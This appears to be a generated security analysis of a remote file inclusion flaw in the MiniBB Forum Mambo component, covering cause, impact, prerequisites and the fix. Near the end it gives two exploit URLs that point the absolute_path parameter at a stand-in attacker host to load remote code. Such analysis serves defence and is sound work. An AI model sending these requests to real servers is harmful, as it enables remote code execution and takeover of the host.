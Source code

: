 Based on the provided content, here's an analysis of the vulnerability:

**Root Cause:** The vulnerability stems from the lack of proper sanitization of the `$absolute_path` variable in the `com_minibb.php` and `index.php` files of the MiniBB Forum Mambo Component.

**Weaknesses/Vulnerabilities:**
*   **Remote File Inclusion (RFI):** The primary vulnerability is RFI. The application includes files using the `$absolute_path` variable without validating it, allowing an attacker to include files from a remote server.
*   **Lack of Input Sanitization:** The application fails to sanitize the `$absolute_path` variable, allowing an attacker to inject malicious URLs.
*  **register_globals=on and allow_fopenurl=on:** The exploit relies on the PHP server configuration having `register_globals` and `allow_fopenurl` enabled which are insecure settings that should be avoided.

**Impact of Exploitation:**
*   **System Access:** The attacker can achieve system access by including a malicious script from a remote server. This allows them to execute arbitrary code on the server hosting the vulnerable application.
*  **Complete Compromise:**  Successful RFI can lead to a complete compromise of the web server and potentially the underlying system.

**Attack Vectors:**
*   **HTTP GET Requests:** The vulnerability can be exploited by sending crafted HTTP GET requests to the vulnerable scripts (`com_minibb.php` and `index.php`).
*   **Manipulated `absolute_path` parameter:** The attacker crafts requests to include a malicious file by setting the `absolute_path` parameter to a URL pointing to their malicious script, like `http://attacker.com/evil.txt`.

**Required Attacker Capabilities/Position:**
*   **Remote Access:** The attacker needs to be able to send HTTP requests to the vulnerable web server.
*   **Malicious File Hosting:** The attacker needs to host a malicious PHP file on a server they control, which will be included on the target.
*  **Server Config:** The server needs to have `register_globals` and `allow_fopenurl` enabled.

**Additional Details:**
The provided exploit-db entry offers specific examples on how to exploit the issue with URLs.
```
http://[target]/[path]/components/com_minibb.php?absolute_path=http://attacker.com/evil.txt?
http://[target]/[path]/components/minibb/index.php?absolute_path= http://attacker.com/evil.txt?
```
The advisory also notes that the solution is to sanitize the variable `$absolute_path`.